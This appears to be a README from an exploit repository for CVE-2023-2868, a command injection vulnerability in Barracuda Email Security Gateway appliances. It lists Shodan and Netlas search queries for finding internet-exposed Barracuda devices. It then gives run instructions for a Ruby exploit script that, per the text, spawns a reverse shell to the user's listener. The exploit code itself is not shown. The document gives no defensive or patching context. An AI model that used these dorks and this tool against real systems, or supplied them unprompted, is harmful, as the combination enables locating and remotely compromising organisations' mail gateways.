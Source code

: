 # CVE-2023-2868
Barracuda ESG Command Injection 
- NetLas Dork:
```
http.headers.server:"BarracudaHTTP"
```
[Search Link](https://app.netlas.io/responses/?q=http.headers.server:"BarracudaHTTP")


- Shodan dorks:
```
product:"Barracuda Networks Spam Firewall smtpd"
```
```
Barracuda-Spam-Firewall
```
```
http.waf:"Barracuda (Barracuda Networks)"
```
```
html:app_common::nonetwork.title
```
```
http.favicon.hash:1436966696
```
- Usage
Set LHOST and RHOST variables to your listener.

```
ruby exploit.rb <TARGET_IP>
```

This will spawn a reverse shell.
